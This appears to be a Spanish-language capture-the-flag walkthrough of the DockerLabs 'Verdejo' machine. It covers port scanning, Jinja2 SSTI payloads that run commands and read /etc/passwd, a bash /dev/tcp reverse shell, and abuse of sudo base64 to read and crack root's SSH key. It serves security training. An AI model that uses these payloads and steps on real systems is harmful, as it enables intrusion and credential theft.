 ```yaml
---
title: Verdejo - docker labs
published: true
categories: dockerLabs
---
```


| OS    | Dificultad | Creator        |
| ----- | ---------- | -------------- |
| Linux | Fácil      | TheHackersLabs |

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fbb886ed-bfaf-40dd-8cab-fdd31f94cc2a)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Búsqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rápido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que esta abierto el puerto 22 `SSH`, el puerto 80 `HTTP` y el puerto 8089 

## Enumeración Web
Si accedemos a la pagina web por el puerto 80 vemos lo siguiente, es la página por default de Apache2.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3bfd1343-fd6f-4e0a-ba4b-28d055387fdc)

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/88f7a6f5-9fe3-4c45-8420-584d2ff5265c)

Gobuster no ha encontrado nada

## Puerto 8089

Vamos acceder al puerto 8089 a ver que hay alojado ahí.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f60246ca-b7b0-416a-9af3-194dc4dfaa80)

Nos encontramos un cuadro donde podemos insertar texto y un botón, vamos a investigar.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/3d36524a-5a96-4f5e-af24-182139acb128)


![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/6a2c65f8-9885-41e0-b4ef-0c7a2c11237f)

Vamos a intentar ver si la web es vulnerable a un HTML Injection

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2aae1f4e-373e-4cb2-ade2-a6b1d2f1b330)

Efectivamente, ahora vamos a probar con una inyección SSTI para ver si es vulnerable.


Vamos a probar con la siguiente instrucción para ver si es vulnerable

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2a8dd831-a414-4992-9739-db20ada43c5b)

Perfecto, vemos que si que es vulnerable a SSTI ahora vamos a intentar enumerar el /etc/passwd para ver posibles usuarios.

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read() }}
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/fa03ed2a-b9ad-4e7e-b661-878c819cf73b)

Vemos únicamente al usuario verde y cuando hemos ejecutado el comando *id* era el usuario verde que ejecutaba dicho comando entonces lo que haremos sera mandarnos una reverse shell a nuestro equipo para conectarnos a la maquina.

## Intrusión

Vamos a ejecutar este comando en el campo donde podemos escribir, esto nos mandara una reverse shell a nuestro ordenador que tendremos que estar por escucha con Netcat.

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/7626a60a-2096-4297-8c00-abead24a6b64)
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/8074ecb9-0bd0-4654-b5ac-9309729a52e6)

## Escalada de privilegios

Ahora vamos a buscar alguna forma para poder escalar privilegios al usuario ROOT.

Si hacemos el comando *sudo -l* vemos que podemos ejecutar el binario base64 como root.

En GTFobins vemos que podemos usar el base64 para descodificar algún tipo de archivo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/4e239ed6-7fc9-48ab-bad8-a91cd9b20653)

Vamos a buscar por el sistema a ver si encontramos algo interesante.

Nos damos cuenta que con el binario Base64, podemos hacer bypass y ver archivos del sistema vamos a ver un ejemplo.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/eb8cf99d-f020-48be-b0a7-a7f404c9375c)
![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a2200d16-0bec-45a5-a69a-4b4d1473db4c)

Podríamos hacer una copia de el /passwd y del /shadow una vez esto podríamos hacer el parámetro unshadow y luego con jhon desencriptar la contraseña, yo lo he probado y no me a funcionado así que al tener permisos de lectura del sistema vamos a ver si podemos leer el id_rsa del sistema del usuario ROOT.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/2795858b-8759-4525-98d3-636797951372)

Si que lo podemos leer vamos a copiarnos esto a nuestro equipo y vamos a desencriptarlo.

Para hacer esto lo que haremos sera, por una parte crear un archivo en nuestra maquina atacante llamada id_rsa y pegaremos el contenido que hemos encontrado en la maquina victima.

Una vez echo esto haremos el siguiente comando:

``` bash
ssh2john [archivo id_rsa] > hash
```

Esto nos generara un archivo con nombre hash, por ultimo haremos el siguiente comando para craquear la contraseña.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt [hash]
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/44f5795f-a5f9-4d78-8c4c-0184857b5e6f)

Tenemos la contraseña de ROOT vamos a intentar conectarnos vía SSH con el usuario ROOT a través del id_rsa, pero antes hemos de cambiar el permiso del id_rsa esto lo hacemos de la siguiente forma.

```bash
chmod 600 id_rsa
```

Ahora vamos a conectarnos con el siguiente comando

```bash
ssh -i id_rsa root@172.17.0.2
```

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/a0e60088-1ef0-45fa-b689-6c27dfe888ae)

Ya somos ROOT
